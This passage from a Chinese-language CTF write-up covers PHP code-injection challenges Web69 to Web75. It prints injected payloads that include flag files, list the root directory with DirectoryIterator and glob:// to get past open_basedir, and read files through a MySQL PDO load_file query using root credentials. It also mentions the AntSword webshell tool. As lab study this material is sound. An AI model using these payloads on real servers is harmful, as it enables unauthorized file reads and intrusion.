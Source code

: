 glob:// 则是查找匹配的文件路径模式，glob:///*代表根目录下的所有文件。
最后输出直接echo $f也是可以的。

然后include即可。

## Web69

	include '/flag.txt';

## Web70

	include '/flag.txt';

## Web71

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20210719104955.png)

	c=include '/flag.txt';exit();

提前结束

## Web72
这里没法直接读了，应该是设置了openbase_dir。
首先扫目录：

	c=$a=new DirectoryIterator('glob:///*');foreach($a as $f){echo($f->__toString()." ");};exit();

然后include一下flag0.txt，g，又忘了设置了openbase。
蚁剑试一下。
蚁剑也g了。

看了下师傅们的博客，用的是这个：

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20210719115025.png)

脚本网上都有

## Web73
flagc.txt

## Web74
flagx.txt

## Web75
利用mysql load_file读文件

    c=try {$dbh = new PDO('mysql:host=localhost;dbname=ctftraining', 'root','root');foreach($dbh->query('select load_file("/flag36.txt")') as $row){echo($row[0])."|"; }$dbh = null;}catch (PDOException $e) {echo $e->getMessage();exit(0);}exit(0);

## Web76
